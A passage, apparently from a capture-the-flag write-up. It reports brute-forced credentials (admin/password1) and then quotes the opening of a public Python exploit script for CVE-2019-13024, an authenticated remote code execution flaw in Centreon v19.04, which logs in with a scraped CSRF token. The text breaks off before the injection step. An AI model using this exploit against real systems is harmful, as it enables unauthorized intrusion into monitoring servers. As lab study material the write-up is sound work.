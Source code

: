 ```console
[+] Password found: password1
```
There we go, usernmae **admin** password **password1**. This kinda feels kinda bad because we should have been able to guess this, but oh well. Learned a way to brutefoce with a CSRF token I gues.

So now that we have credentials we can pivot back to that authenticated RCE (https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py)

```python
#!/usr/bin/python

'''
# Exploit Title: Centreon v19.04 authenticated Remote Code Execution
# Date: 28/06/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-13024
# Vendor Homepage: https://www.centreon.com/
# Software link: https://download.centreon.com
# Version: v19.04
# Tested on: CentOS 7.6 / PHP 5.4.16
'''

import requests
import sys
import warnings
from bs4 import BeautifulSoup

# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]


request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")

login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")

    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
```